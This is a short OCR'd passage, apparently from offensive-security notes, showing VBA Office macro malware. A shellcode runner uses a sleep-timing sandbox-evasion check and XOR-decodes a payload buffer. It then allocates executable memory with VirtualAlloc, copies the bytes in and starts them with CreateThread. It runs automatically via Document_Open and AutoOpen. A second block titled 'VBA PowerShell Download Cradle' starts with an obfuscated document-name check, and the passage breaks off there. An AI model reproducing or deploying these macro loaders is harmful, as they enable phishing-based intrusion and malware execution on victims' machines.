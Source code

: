 ```vba

End If

t1 = Now()

Sleep (2000)

t2 = Now()

time = DateDiff("s", t1, t2)

If time < 2 Then

Exit Function

End If

buf = Array(...)

For i = 0 To UBound(buf)

buf(i) = buf(i) Xor 188

Next i

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

For counter = LBound(buf) To UBound(buf)

data = buf(counter)

res = RtlMoveMemory(addr + counter, data, 1)

Next counter

res = CreateThread(0, 0, addr, 0, 0, 0)

End Function

Sub Document_Open()

mymacro

End Sub

Sub AutoOpen()

mymacro

End Sub
```
#### VBA PowerShell Download Cradle
```vba
Function MyMacro()

Dim Apples As String

Dim Water As String

If ActiveDocument.Name <> Nuts("141141142142140146216211223") Then

Exit Function

```